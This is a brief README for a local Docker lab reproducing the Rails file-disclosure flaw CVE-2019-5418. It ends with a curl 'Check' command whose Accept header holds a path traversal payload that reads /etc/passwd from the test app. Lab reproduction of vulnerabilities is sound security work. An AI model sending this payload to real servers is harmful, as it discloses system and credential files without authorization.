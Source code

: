 # Rails

This code is based on [https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/](https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/).

Start in this directory (be sure the port 8896 is not used, otherwise change it):

```
docker build -t rails_fi_app . && docker run -d -p 127.0.0.1:8896:3000 rails_fi_app
```

Next you can go to [127.0.0.1:8896](127.0.0.1:8896) to see the running rails application.

# Check

```
curl -X GET -H 'Accept: ../../../../../../../etc/passwd{{' http://localhost:8896/fileinclusion
```
